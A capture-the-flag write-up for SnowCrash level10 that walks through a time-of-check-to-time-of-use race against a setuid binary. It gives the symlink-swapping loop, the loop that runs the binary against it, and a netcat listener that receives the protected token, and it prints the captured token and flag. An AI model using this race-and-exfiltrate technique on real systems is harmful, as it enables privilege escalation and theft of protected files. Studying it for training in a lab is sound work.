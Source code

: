 # 1st Step  
List the files in level10 user home directory to find `level10` executable and `token` file :  
```
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
level10@SnowCrash:~$
```  
If we look at the executables with strings :  
```
level10@SnowCrash:~$ strings level10
[...]
open
access
[...]
%s file host
        sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
[...]
level10@SnowCrash:~$
```  
The executable check if we have the rights to read the file with `access` then try to send it to a server and display its content but we have not the necessary rights on the token file.  
```
level10@SnowCrash:~$ man 2 access
[...]
NOTES
       Warning:  Using  access()  to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking      
       and opening the file to manipulate it.  For this reason, the use of this system call should be avoided.  (In the example just described, a safer alternative would be to temporarily switch the process's effective user  ID  to      
       the real ID and then call open(2).)
[...]
level10@SnowCrash:~$
```
We will use the short time between `access` and `open` to change the file to be opened ([race condition exploit](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use))  

A race condition consists in quickly changing the pointing of a symbolic link between a file of which we have the rights and the file of which we don't have, so that `access` will returns us 'true' while `open` will opens the correct file.  
  
# 2nd Step
We have to open three windows of the virtual machine.  
In the first one, listen on the port 6969 with netcat (remember what we saw with `strings` : "Connecting to %s:6969 ..")  
```
level10@SnowCrash:~$ nc -lk 6969
```
-l to specify netcat should listen on specified port, -k to stay listening after each connection.  
In the second window we create a script that spam the creation of a file, delete it, then create a symbolic link to exploit the short time between these two operations :  
```
level10@SnowCrash:~$ cd /tmp
level10@SnowCrash:/tmp$ vim symlink.sh
level10@SnowCrash:/tmp$ cat symlink.sh
#!/bin/bash

while true; do
        touch /tmp/link
        rm -f /tmp/link
        ln -s /home/user/level10/token /tmp/link
        rm -f /tmp/link
done
level10@SnowCrash:/tmp$
```
First we create a file in `/tmp` in hope that `access` will think that we want to open it.  
Then we delete it before we create a symbolic link so that `open` open the `token` file ! Then we remove our symbolic link before create again because of the infinity loop.  
Don't forget to run it ;)
In the last window, we have to create another infinity loop so that we can execute `~/level10` with the `/tmp/link` file that we created again and again with our precedent script.  
```
level10@SnowCrash:/tmp$ vim spam.sh
level10@SnowCrash:/tmp$ cat spam.sh
#!/bin/bash

while true; do
        /home/user/level10/level10 /tmp/link 192.168.1.30
done
```
Replace `192.168.1.30` by your localhost.  
After few seconds you can stop both scripts and go back to the first window where you will see something like that :  
```
[...]
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
^C
level10@SnowCrash:~$
```  
Let's try it  
```
level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$ su level11
Password:
level11@SnowCrash:~$
```  
Level10 passed !